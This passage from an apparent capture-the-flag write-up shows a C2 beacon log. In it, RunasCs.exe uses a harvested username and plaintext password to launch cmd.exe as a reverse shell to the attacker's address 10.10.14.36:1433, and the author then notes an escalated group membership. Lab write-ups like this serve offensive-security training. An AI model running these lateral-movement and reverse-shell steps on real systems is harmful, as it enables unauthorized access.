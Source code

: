 Nice!!! now we have this use at Bloodhound. we can try winrm and load beacon. our laod beacon directly.

```bash
[07/05 20:26:39] beacon> execute-assembly /home/elliot/tools/RunasCs.exe todd.wolfe NightT1meP1dg3on14 "cmd.exe" -r 10.10.14.36:1433
[07/05 20:26:39] [*] Tasked beacon to run .NET program: RunasCs.exe todd.wolfe NightT1meP1dg3on14 "cmd.exe" -r 10.10.14.36:1433
[07/05 20:26:39] [+] host called home, sent: 161074 bytes
[07/05 20:26:40] [+] received output:
[*] Warning: The logon for user 'todd.wolfe' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-5d163d$\Default
[+] Async process 'C:\Windows\system32\cmd.exe' with pid 3612 created in background.
```

and hereee

and we are member of SECOND-LINE-IT member.

![alt text](../assets/images/voleur20.png)

and lets check it

![alt text](../assets/images/voleur21.png)
